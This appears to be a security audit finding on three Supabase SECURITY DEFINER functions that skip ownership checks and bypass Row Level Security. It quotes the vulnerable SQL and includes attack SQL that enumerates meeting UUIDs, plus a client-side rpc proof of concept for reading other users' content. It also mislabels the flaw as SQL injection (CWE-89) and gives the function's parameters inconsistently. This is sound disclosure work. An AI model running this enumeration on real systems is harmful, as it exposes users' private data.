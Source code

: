 **Severity**: 🔴 CRITICAL
**CVSS Score**: 9.8 (Critical)
**CWE**: CWE-89 (SQL Injection), CWE-863 (Incorrect Authorization)

**Vulnerability Description**:
Three PostgreSQL functions are marked `SECURITY DEFINER`, meaning they run with the creator's (superuser) privileges, completely bypassing Row Level Security. These functions do not validate that the caller has permission to access the requested data.

**Affected Components**:
- `/supabase/migrations/20250128000000_create_meeting_content_tables.sql`
  - Lines 275-303: `get_latest_content(p_meeting_id UUID)`
  - Lines 306-331: `get_content_with_topics(p_content_id UUID)`
  - Lines 334-354: `calculate_meeting_content_costs(p_meeting_id UUID)`

**Vulnerability Code**:
```sql
-- Lines 275-303
CREATE OR REPLACE FUNCTION get_latest_content(
  p_meeting_id UUID,
  p_content_type TEXT
)
RETURNS TABLE (...) AS $$
BEGIN
  RETURN QUERY
  SELECT ... FROM meeting_generated_content mgc
  WHERE mgc.meeting_id = p_meeting_id  -- NO OWNERSHIP CHECK!
    AND mgc.content_type = p_content_type
    AND mgc.is_latest = true
    AND mgc.deleted_at IS NULL
  ORDER BY mgc.created_at DESC
  LIMIT 1;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;  -- Bypasses RLS!
```

**Attack Scenario**:
```sql
-- Attacker can call function directly via Supabase SQL Editor or PostgREST
-- Enumerate UUIDs and extract other users' content
SELECT * FROM get_latest_content(
  '12345678-1234-1234-1234-123456789012',  -- Victim's meeting_id
  'blog'
);

-- Result: Returns victim's private content, bypassing RLS completely

-- Attacker could write script to enumerate all meetings:
SELECT * FROM get_latest_content(gen_random_uuid(), 'blog');
-- Repeat with different UUIDs until finding valid meetings
```

**Proof of Concept**:
```javascript
// From Supabase client (authenticated as attacker)
const { data, error } = await supabase.rpc('get_latest_content', {
  p_meeting_id: 'victim-meeting-uuid',
  p_content_type: 'blog'
});

// Expected: Permission denied
// Actual: Returns victim's content (RLS bypassed)
```
